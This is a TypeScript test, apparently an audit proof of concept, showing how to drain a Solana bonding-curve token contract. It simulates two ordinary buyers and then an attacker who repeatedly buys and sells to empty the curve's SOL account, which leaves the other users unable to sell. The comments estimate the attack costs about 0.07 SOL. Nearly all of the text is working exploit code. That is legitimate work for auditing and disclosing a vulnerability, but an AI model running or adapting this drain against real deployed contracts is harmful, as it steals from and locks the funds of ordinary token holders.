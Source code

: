 ```ts
    let buyTx = await simpleBuyFromBondingCurve(randomUser, newBondingCurve.mint, newBondingCurve.bondingCurvePDA, 4n*tokensToBuy, 10n*maxSolAmount);

    // Buy the tokens from randomUser2
    buyTx = await simpleBuyFromBondingCurve(randomUser2, newBondingCurve.mint, newBondingCurve.bondingCurvePDA, 3n*tokensToBuy, 10n*maxSolAmount);

    bondingCurveSolBalance = await connection.getBalance(newBondingCurve.bondingCurvePDA);
    console.log("Bonding curve lamprots balance after the buy of the two normal users: ", bondingCurveSolBalance);

    const hackersTokensToBuy = 100n * tokensToBuy;

    // XXX: This loop is strictly for the parameters used above... however
    //      anytime the attacker forsees that the transaction isn't passing
    //      he will know that the bonding curve account is drained and thus
    //      all the randomUsers (1,2,....1000,...) will NOT be able to withdraw
    //      their funds => User Funds Locked
    for (let i = 0n; i < 13n; i++) {
        let currentAMMForHacker = await getAmmFromBondingCurveCustom(newBondingCurve.bondingCurvePDA);
        let buyPriceForAttacker = currentAMM.getBuyPrice(hackersTokensToBuy);

        if (!buyPriceForAttacker) {
            throw new Error(`No buy price returned for ${hackersTokensToBuy} tokens. AMM state: ${JSON.stringify(currentAMM)}`);
        }
        const feeHacker = calculateFee(buyPriceForAttacker, Number(DEFAULT_FEE_BASIS_POINTS));
        const maxSolAmountHacker = buyPriceForAttacker + feeHacker;

        // Buy the tokens from hacker
        const attackerBuyTx = await simpleBuyFromBondingCurve(attacker, newBondingCurve.mint, newBondingCurve.bondingCurvePDA, hackersTokensToBuy, 2n * maxSolAmountHacker);

        // Now sell in order to drain little by little the Bonding Curve ATA
        let ammAfterBuy = await getAmmFromBondingCurveCustom(newBondingCurve.bondingCurvePDA);
        let sellPrice = ammAfterBuy.getSellPrice(hackersTokensToBuy);
        if (!sellPrice) {
            throw new Error(`No sell price returned for ${hackersTokensToBuy} tokens. AMM state: ${JSON.stringify(ammAfterBuy)}`);
        }
        const sellFee = calculateFee(sellPrice, Number(DEFAULT_FEE_BASIS_POINTS));
        const minSolAfterFee =  1n;
        await simpleSellFromBondingCurve(attacker, newBondingCurve.mint, newBondingCurve.bondingCurvePDA, hackersTokensToBuy, minSolAfterFee);

        bondingCurveSolBalance = await connection.getBalance(newBondingCurve.bondingCurvePDA);
        console.log("Bonding curve lamprots balance after byuing then immedeialty selling tokens: ", bondingCurveSolBalance);
    }

    // XXX: For measuring how much SOL was needed to drain the BondingCurve ATA
    //      in the above scenario, where we have 2 normal users and one attacker
    //      The results: About 65_815_400 - 70_000_000 lamports ~ 0.07 SOL ~ 8 USD
    attackerSolBalance = await connection.getBalance(attacker.publicKey);
    console.log("Attacker SOL Balance after draining the Bonding Curve ATA:", attackerSolBalance);

    // XXX: Try to sell the tokens as the random User and see that
    //      you cannot sell them because the Bonding Curve ATA is drained...
    await simpleSellFromBondingCurve(randomUser, newBondingCurve.mint, newBondingCurve.bondingCurvePDA, 2n * tokensToBuy, 1n);
});
```